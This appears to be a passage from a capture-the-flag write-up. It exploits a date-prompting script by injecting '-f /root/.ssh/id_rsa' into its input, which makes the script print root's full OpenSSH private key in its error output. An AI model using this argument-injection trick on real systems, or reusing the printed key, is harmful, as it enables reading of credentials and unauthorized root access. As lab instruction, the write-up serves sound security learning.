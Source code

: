 ```bash
                                           
You've entered '2020-01-01'. Is that right?
                                           
               Yes        No      
Please select the date you meant:
> -f /root/flag.txt
date: invalid date ‘[ Sorry, your flag will be displayed once you have code execution as root ]’
Sorry, that wasn't correct!
=====================================
```

We need to take another route to get the flag, we could get the ssh key of the root user via `-f /root/.ssh/id_rsa`.

The script outputs the private key

```bash
date: invalid date ‘-----BEGIN OPENSSH PRIVATE KEY-----’
date: invalid date ‘b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn’
date: invalid date ‘NhAAAAAwEAAQAAAYEAxllMaPu/ewDglK/+qcskWbUTSiQtLBBX4Ls5EGWmGbTdKh7K7trC’
date: invalid date ‘Nht9hbSx8Ei4cLQWhbbwcvIqDAgrXYO9Vb/sr/BEyk1aVVTpFfLuFbsyZNZTqmONajdsf9’
date: invalid date ‘Kl/4Qy9u8/3duhBYaeV0Am4tK9mzM8/D2YbzmYD+pK8GFwJDQG5RdFstj6NxXjROAsaj8H’
date: invalid date ‘U7HHvkNFctEMMBmquAaG85DZO83ZUWWASB702UNrc701Mhdf7Ln92D2aEhwMisdBjK/F83’
date: invalid date ‘K71YIcrpkuDTQYhms4SGUlYIlUaIhridKH3m3BgCNhC5mjsy5IkV0VwG/SRxew0adhHxT+’
date: invalid date ‘Gc9izi2yy1uW1wrJT0u8ImQhTm35R+cLD+SpWJSHswDxygCVHTUvVIngNakJvWXRKDmS3N’
date: invalid date ‘PjIu9gaJ3D69Q3BDlxcbluhjl2Z/5nenryUZdoVORnCf75YiWgTtI/FhS7HnHyw69LaJoH’
date: invalid date ‘1NPGh/mV730OsnqtdakxkHXd3CDhcwY5QjvJlFEdAAAFgAlNDvEJTQ7xAAAAB3NzaC1yc2’
date: invalid date ‘EAAAGBAMZZTGj7v3sA4JSv/qnLJFm1E0okLSwQV+C7ORBlphm03Soeyu7awjYbfYW0sfBI’
date: invalid date ‘uHC0FoW28HLyKgwIK12DvVW/7K/wRMpNWlVU6RXy7hW7MmTWU6pjjWo3bH/Spf+EMvbvP9’
date: invalid date ‘3boQWGnldAJuLSvZszPPw9mG85mA/qSvBhcCQ0BuUXRbLY+jcV40TgLGo/B1Oxx75DRXLR’
date: invalid date ‘DDAZqrgGhvOQ2TvN2VFlgEge9NlDa3O9NTIXX+y5/dg9mhIcDIrHQYyvxfNyu9WCHK6ZLg’
date: invalid date ‘00GIZrOEhlJWCJVGiIa4nSh95twYAjYQuZo7MuSJFdFcBv0kcXsNGnYR8U/hnPYs4tsstb’
date: invalid date ‘ltcKyU9LvCJkIU5t+UfnCw/kqViUh7MA8coAlR01L1SJ4DWpCb1l0Sg5ktzT4yLvYGidw+’
date: invalid date ‘vUNwQ5cXG5boY5dmf+Z3p68lGXaFTkZwn++WIloE7SPxYUux5x8sOvS2iaB9TTxof5le99’
date: invalid date ‘DrJ6rXWpMZB13dwg4XMGOUI7yZRRHQAAAAMBAAEAAAGAECAzdPeUCOaN264hU2Gcz3RIIL’
date: invalid date ‘InQAVbd6hmX8hmhCwvAkfQR4dehx1ItmWgmoChtNFXYWtO9NwZAghp/3zV7aegZmoaKvkL’
date: invalid date ‘UT5e2DYmGCXeLNI7VBzVjZ9QQWYkBng+LShPYMoEjIP2J0bObTN6pH26cBF77VMD42Cw01’
date: invalid date ‘vrTO4z6ffbO/VQW8kk7zUV4f9vfjpJGyqx9enmsURs8PA1lDjLCIXYV2Sb/4EQzAHOCxyv’
date: invalid date ‘Zfv+LwCsvCIUqXNBVnO+N7hg5b/zh7gyvuzHq/vyOTjkNceQa7SZ/egeclWGkkYttUzUr1’
date: invalid date ‘0cveVqXTM2tfJhv8+cobJcmO7IccjsOyL+zYPR3mN/Q1nUvGyAERppXfhwTAZ5ljMRDkv/’
date: invalid date ‘KUy7IJ3Q9FnSVdqkni2u6ErHEer0/TKXAT92LYQXzTczd6hGvh+IADlmOLzU2d0RfkPZZ4’
date: invalid date ‘8GKvZfThN1OSMVpcwJMVeILWP6uz9WnnUAXgLIUriJK7rrsHpH0MNTmfTT9v5VSH3RAAAA’
date: invalid date ‘wB2od8rr4IU8AkpZ/kE9kY5a/INNsvSdUA6sn/5Fwso19fiPz2vYdP9fJMYjShV1wb8UFt’
date: invalid date ‘cajFvnnj2DnClU0imh1eC0fB5+vAmJvx8Qq9NWcmz7aejvZrBdIFbqGYr5krc5KvmizYVC’
date: invalid date ‘+tII4u4s5SFcvcZwmuIsWJQjbXA7VVa8v8Y10YJdeYsl3YpKqJdU0xPkt2Y2IgZxTJ4Dd9’
date: invalid date ‘MKgcPTBdOVuKA8r8ALCth9OV74k1GOEpLbDIY4gFiXbi7crQAAAMEA2Z0ZtNS6bUEq61DF’
date: invalid date ‘6758uI3wIeYe8NoGyxlH/oTGVqy5KfQ9vCochcSx0yov4MSZBY+foE8OAxNvAxBSV+2CnQ’
date: invalid date ‘4OHnZnKa9teSvphUCmnt4Va7CWRzmVmNiKlpMOky2P8Zfv3LdgpwrAbwxBL1HQv/eivXDm’
date: invalid date ‘0BQCxuiaOp5/3nz+K+IvA/cBhsJwS6bWMtAhcfzKfS7/NzgcLTtlVR1Li/vC/r69iDs/xi’
date: invalid date ‘zDGCjuOrjsWhqqIqjhMGZjguTz9Y+FAAAAwQDpVj6g1OSqzZ5Kw805VTcbRRTmiHb00hht’
date: invalid date ‘U4LYw5xV+1iNJ8/BijiIZaT/zXnZbzIzLBnPbzqNLW5sBPJ+eMo5wY5ZNKa/qMd4Rdj6Hx’
date: invalid date ‘pAVbuqv6sYPhj2Xl6R/yJUVRw6OGoIa0SEumrmXzbJTT25o9FgItuKOpRRWd9l4gB8Pa1I’
date: invalid date ‘LLomZzqAmpdZtcMX+ihYPAJL5UBGPkD4CO7JwHm+W36NpAEKhi/Fh6D/U/RPEtwXZEbaWY’
date: invalid date ‘vIJis7FbO7UrkAAAAJa2FsaUBrYWxpAQI=’
date: invalid date ‘-----END OPENSSH PRIVATE KEY-----’
Sorry, that wasn't correct!
=====================================

```
